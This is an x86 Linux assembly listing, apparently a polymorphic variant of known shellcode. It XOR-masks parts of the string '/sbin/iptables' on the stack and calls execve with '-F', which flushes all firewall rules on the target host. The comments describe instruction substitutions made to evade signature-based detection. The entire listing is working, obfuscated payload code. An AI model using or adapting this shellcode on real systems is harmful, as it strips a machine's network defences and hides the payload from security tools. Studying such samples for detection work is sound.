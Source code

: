 ```nasm
    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di

    ; use edi instead of esi
    mov edi,esp
    
    ; use EBX or EDX instead of EAX
    push edx

    ; XOR key ('rbct')
    mov esi, 0x72626374

    ; NULL DWORD acting as the string terminator for
    ;   the path of the executable
    push edx

    push 0x73656c62
    
    push 0x1316131d
    xor [esp], esi

    push 0x2f6e6962

    push 0x014d4c5b
    xor [esp], esi

    ; save the pointer to the string into EBX
    push esp
    pop ebx

    ; instead of 'push eax' use 'push edx', as they are both set to 0x0 
    push edx

    push edi
    push ebx

    mov al, 0xa
    inc eax

    ; use the PUSH-POP technique instead of the MOV instruction
    push esp
    pop ecx

    ; call execve
    int 0x80
```
